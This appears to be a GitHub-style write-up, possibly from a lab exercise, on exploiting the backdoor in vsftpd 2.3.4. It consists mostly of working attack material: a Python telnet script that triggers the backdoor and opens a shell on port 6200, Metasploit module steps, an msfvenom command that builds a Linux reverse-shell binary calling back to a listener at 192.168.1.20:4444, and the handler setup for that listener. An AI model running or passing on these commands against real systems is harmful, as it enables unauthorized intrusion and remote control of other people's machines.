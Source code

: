 ``` python

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
            
```

This python script can be easily ran within the terminal.
``` bash
python3 vsftpd_exploit_db.py <ip>
```

Msfconsole also includes a module to exploit this vulnerability easily.

``` msfconsole
msf > use exploit/unix/ftp/vsftpd_234_backdoor 
msf exploit(vsftpd_234_backdoor) > show targets 
	...targets... 
msf exploit(vsftpd_234_backdoor) > set TARGET < target-id > 
msf exploit(vsftpd_234_backdoor) > show options 
	...show and set options... 
msf exploit(vsftpd_234_backdoor) > exploit
```

Researching of the vulnerability highlights that the backdoor created only allows arbitrary code execution within the context of the FTP service, this is incredibly powerful alone but may cause issues in full compromisation of the system. To combat that we would need to set up a interactive shell that gives unrestricted access to the system.

Using msfconsole we can create a payload  for a interactive reverse shell that can be uploaded and executed on the target machine. After the file is executed on the target it creates a shell on port 4444 which our target machine will need to be set up to listen for

``` bash
### msfvenom reverse shell payload generation

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.20 LPORT=4444 -f elf > /tmp/reverse_shell.elf
```
 
``` msfconsole
### msfconsole listener 

use exploit/multi/handler
set payload linux/x86/shell_reverse_tcp
set LHOST 192.168.1.20
set LPORT 4444
run
```
